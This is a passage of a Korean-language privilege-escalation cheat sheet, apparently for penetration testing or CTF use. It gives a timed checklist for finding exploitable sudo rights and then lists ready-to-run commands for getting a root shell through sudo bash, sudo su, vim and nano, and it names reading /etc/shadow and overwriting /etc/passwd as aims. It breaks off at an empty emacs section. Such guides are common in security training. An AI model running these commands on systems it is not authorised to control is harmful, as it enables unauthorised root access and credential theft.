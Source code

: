 ## 📋 단계별 체크리스트

### Phase 1: sudo 권한 분석 (1분)

- [ ] **기본 확인**: `sudo -l` 실행하여 전체 권한 파악
- [ ] **NOPASSWD 확인**: 패스워드 없이 실행 가능한 명령어들
- [ ] **환경 변수 상속**: env_keep, env_reset 옵션 확인
- [ ] **실행 가능 바이너리**: 구체적인 경로와 인자 제한 확인
- [ ] **와일드카드 사용**: 명령어에 \* 나 ? 같은 와일드카드 있는지

### Phase 2: GTFOBins 매칭 (2분)

- [ ] **직접 쉘**: bash, sh, vim, python 등 즉시 쉘 가능한 것들
- [ ] **파일 조작**: cp, mv로 /etc/passwd 덮어쓰기 가능한지
- [ ] **파일 읽기**: cat, less로 /etc/shadow 읽기 가능한지
- [ ] **명령 실행**: find, nmap 등으로 임의 명령 실행 가능한지
- [ ] **스크립트 실행**: 스크립트 파일이 sudo로 실행되는지

### Phase 3: 고급 기법 확인 (2분)

- [ ] **환경 변수 악용**: LD_PRELOAD, PATH 하이재킹 가능한지
- [ ] **와일드카드 인젝션**: tar, rsync 등에서 파일명 인젝션
- [ ] **상대 경로 악용**: sudo로 실행되는 스크립트의 상대 경로
- [ ] **심볼릭 링크**: 심볼릭 링크를 이용한 파일 덮어쓰기

## 🎯 발견별 즉시 익스플로잇

### 🐚 직접 쉘 실행 (즉시 root!)

```bash
# bash/sh sudo 권한이 있는 경우
sudo bash
sudo sh
sudo /bin/bash
sudo /bin/sh

# zsh, dash 등
sudo zsh
sudo dash
sudo fish

# sudo su로 root 전환
sudo su
sudo su -
sudo su root
```

### 📝 에디터를 통한 쉘 실행

```bash
# vim sudo 권한이 있는 경우
sudo vim -c ':!/bin/sh'
# 또는 vim 실행 후
:!/bin/sh
:set shell=/bin/sh
:shell

# nano로 root 쉘
sudo nano
# nano에서 Ctrl+R, Ctrl+X 입력 후
reset; sh 1>&0 2>&0

# emacs로 쉘 실행
```